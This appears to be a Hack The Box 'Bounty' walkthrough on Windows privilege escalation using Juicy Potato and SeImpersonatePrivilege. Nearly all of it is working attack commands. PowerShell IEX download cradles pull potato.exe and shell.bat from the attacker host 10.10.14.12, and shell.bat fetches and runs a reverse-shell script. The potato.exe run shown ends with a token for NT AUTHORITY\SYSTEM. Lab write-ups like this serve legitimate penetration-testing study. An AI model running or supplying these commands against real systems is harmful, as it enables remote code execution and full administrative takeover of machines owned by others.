

# 20 - PrivEsc


# SeImporsonatePrivilege Enabled


# [Juicy Potato](https://github.com/ohpe/juicy-potato)

```p
PS C:\Windows\system32> powershell -c IEX(New-Object Net.WebClient).DownloadFile('http://10.10.14.12/potato.exe','c:\users\merlin\Desktop\potato.exe')
```



* -t, -p, -l are the mandatory arguments
* Need a reverse shell to connect back to us as administrator
* Need a program to download the reverse shell and execute it at the same time

# reverse2.ps1
There should be a reverse shell in our www directory already


```bash
┌──(kali㉿kali)-[10.10.14.12/23]-[~/htb/bounty/www]
└─$ ls -la
total 392
drwxr-xr-x 2 kali kali   4096 Jun  8 20:51 .
drwxr-xr-x 7 kali kali   4096 Jun  8 19:38 ..
-rw-r--r-- 1 kali kali 347648 Jun  8 20:17 potato.exe
-rw-r--r-- 1 kali kali   4403 Jun  8 15:03 reverse.ps1
```

Let's create another reverse shell with a different port
```
┌──(kali㉿kali)-[10.10.14.12/23]-[~/htb/bounty/www]
└─$ cp reverse.ps1 reverse2.ps1
```

4444 is already being used by our current shell so I'll use 9001 for the root shell


# shell.bat

Shell.bat is the program that needs to run with .\potato.exe in order to download the reverse shell and execute it.
```bash
┌──(kali㉿kali)-[10.10.14.12/23]-[~/htb/bounty/www]
└─$ echo "powershell -c IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.12/reverse2.ps1')" > shell.bat
```

# upload shell.bat

```p
PS C:\> powershell -c IEX(New-Object Net.WebClient).DownloadFile('http://10.10.14.12/shell.bat','c:\users\merlin\desktop\shell.bat')
```

# Open up a nc listener on port 9001


# execute potato.exe
```powershell
PS C:\Users\merlin\Desktop> .\potato.exe -t * -p c:\Users\merlin\desktop\shell.bat -l 4445
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 4445
....
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
PS C:\Users\merlin\Desktop> 
```
# nt authority\system
